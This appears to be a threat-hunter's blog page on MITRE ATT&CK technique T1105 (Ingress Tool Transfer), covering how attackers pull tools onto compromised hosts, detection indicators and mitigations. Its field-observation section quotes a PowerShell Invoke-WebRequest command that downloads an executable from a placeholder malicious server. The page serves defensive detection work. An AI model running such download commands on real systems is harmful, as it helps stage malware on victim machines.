 ```yaml
---
title: "T1105 - Ingress Tool Transfer"
date: 2024-10-27T10:16:12+01:00
draft: false
---
```


| Revised Date | Comment |
| ------------ | ------- |
| 27.10.2024   | Added page | 

**The Ingress Tool Transfer technique involves adversaries transferring files such as malware, scripts, or utilities from an external source to a compromised system. After the initial compromise, attackers may need additional tools to escalate privileges, establish persistence, or move laterally across the network. They use network protocols like HTTP, HTTPS, FTP, or SMB to download these tools.**

**Adversaries typically download their malicious payloads from command and control (C2) servers or compromised websites. The tools may be stored in remote locations such as cloud services or attacker-controlled servers. This method allows attackers to minimize the size and complexity of their initial payload, instead fetching additional tools as needed during the attack.**

## A note on ingress and egress

Before we dive into T1105, lets pause for a moment for a refresher on the terms ingress and egress:

| **Term**   | **Definition** | **Traffic Direction** | **Examples** | **Security Considerations** |
| ---------- | -------------- | --------------------- | ------------ | --------------------------- |
| **Ingress** | Traffic entering a network or system from external sources | Incoming (external → internal) | Web requests, Email traffic, File downloads | Ingress filtering to prevent unauthorized or malicious traffic from entering |
| **Egress**  | Traffic leaving a network or system to external destinations | Outgoing (internal → external)| Web requests, Data uploads, Emails to external addresses | Egress filtering to prevent data exfiltration or malicious traffic from spreading |

## How It Works

Once attackers gain access to a system, they need further tools to achieve their objectives, which often include stealing data, maintaining persistence, or performing lateral movement. These tools could be transferred into the victim's environment using methods like:

| Method | Example / Description |
| ------ | --------------------- |
| PowerShell commands | E.g., `Invoke-WebRequest` or `curl`) to download files. |
| Remote transfers | Via FTP, SMB, or HTTP/S from an external server to the compromised machine. | 
| File downloads |  Initiated by malware as part of a broader infection chain. | 

## Field Observations

In a scenario I was hunting for, I discovered an adversary using PowerShell to download several malicious tools from an external server. In all essence, the adversary used variants of this command to get their software suite in place: 

```powershell
Invoke-WebRequest "http://malicious-server.com/<toolname>.exe" -OutFile "C:\Users\<UsernameHere>\<toolname>.exe"
```

There were a few things that triggered my senses when I found these, those things were:

* Who uses Powershell and Invoke-WebRequest to download things?
* Why would someone download executables using this method? 
* Why did they place the executables in the root of the user home directory? 

A regular user has no use for using Powershell to download files to begin with. Besides, a user would normally download executables using a web-browser - and if they do so, the software would most likely end up in the "Downloads" folder. Clearly, I had something situation in my hands here.

## Detection

Detecting **Ingress Tool Transfer** requires monitoring both network activity and system behavior. Here are some key indicators to monitor:

### File System Changes

- Unusual file creation, especially in uncommon directories (e.g., `C:\Users\<username>\AppData\Local\Temp\`).
- Executable files or scripts being written to disk from external sources. Pay attention to where and ask yourself if it is normal to place it there.

### Command Execution

- PowerShell or Bash commands that download files using utilities like `Invoke-WebRequest`, `curl`, or `wget`.
- Pay attention to where such commands may download to. 

### Network Traffic

- Outbound network traffic to suspicious IP addresses or domains that are not typical for the organization’s environment.
- Large or unusual file transfers, especially over unmonitored or rarely used protocols like FTP.

### Anomalous Activity

- Suspicious or abnormal behavior by trusted applications or processes (e.g., browsers or system management tools downloading unexpected files).

## Mitigations

### Network Segmentation

- Restrict outbound traffic and limit access to external resources, especially on critical systems.

### Web Filtering

- Use DNS filtering or web proxies to block access to known malicious domains or IP addresses.

### Endpoint Protections

- Deploy endpoint detection and response (EDR) solutions that can flag anomalous file transfers or unauthorized download attempts.
- Implement application allow-listing solutions like AppLocker to prevent unauthorized applications from executing.

### Traffic Inspection

- Monitor and log HTTP/HTTPS and other file transfer protocols to identify and block suspicious downloads.

## MITRE ATT&CK Detection Category

This technique is categorized under the **Command and Control (TA0011)** tactic. It involves transferring tools into the compromised system for continued operations.

## References

- MITRE ATT&CK T1105: [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)

